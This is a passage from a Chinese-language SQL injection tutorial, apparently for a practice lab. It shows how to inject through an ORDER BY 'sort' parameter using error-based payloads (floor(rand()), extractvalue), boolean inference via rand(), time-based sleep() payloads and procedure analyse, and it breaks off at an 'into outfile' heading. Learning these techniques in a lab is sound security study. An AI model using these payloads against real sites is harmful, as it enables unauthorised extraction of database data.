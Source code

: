 这两个均没有报错且结果都是一样的，这里我们 version()=5.6.17，说明数字没有其作用。

我们就可考虑布尔类型了！可以利用报错注入和延时注入。

此处可以直接构造 ` ?sort= 一个参数 ` 。此时我们有三种形式：

1. 直接添加注入语句，?sort=(select ***)
2. 利用一些函数。例如 rand() 函数等。 ?sort=rand(sql语句)。
> 注意，实践了一下：<br>
rand(true)和rand(false)的结果是不一样的。<br>
rand(1) 和 rand(0) 的结果是不一样的。<br>
而且，?sort=0.155 和 ?sort=0.405的结果是一样的。
3. 利用and，例如 ?sort=1 and ( sql语句 )
> 注意在此同时，sql语句可以利用报错注入和延时注入的方式，可以灵活构造。

EG: 

    # 报错注入示范：
    ?sort=(select%20count(*)%20from%20information_schema.columns%20group%20by%20concat(0x3a,0x3a,(select%20user()),0x3a,0x3a,floor(rand()*2)))
    ?sort=(select%20count(*)%20from%20information_schema.columns%20group%20by%20concat(0x3a,0x3a,(select%20user()),0x3a,0x3a,floor(rand(0)*2)))
    # 这里尝试 rand(0/1) 构造错误，可以显示 root@loaclhost 用户名

    # 接下来利用rand()示范：
    ?sort=rand(ascii(left(database(),1))=115) # rand(true) 
    ?sort=rand(ascii(left(database(),1))=116) # rand(false)
    # 这里示范出来的payload结果是不同的，可以得知注入是成功的。

    # 延时注入示范：
    ?sort=1%20and%20IF(ASCII(SUBSTR(database(),1,1))=115,0,sleep(5))
    ?sort=1%20and%20IF(ASCII(SUBSTR(database(),1,1))=116,0,sleep(5))
    # 根据响应时间也可以得知延时注入是成功的。
    
(2) procedure analyse 参数后注入

利用procedure analyse 参数，我们可以执行报错注入。同时，在procedure analyse 和order by 之间可以存在limit 参数，我们在实际应用中，往往也可能会存在limit 后的注入，可以利用procedure analyse 进行注入。

    ?sort=1%20%20procedure%20analyse(extractvalue(rand(),concat(0x3a,version())),1)
    # 注意：此处在本地进行学习实践时候会sql报错，但是不影响学习payload构造思路。
    
(3) 导入导出文件into outfile 参数

将查询结果导入文件
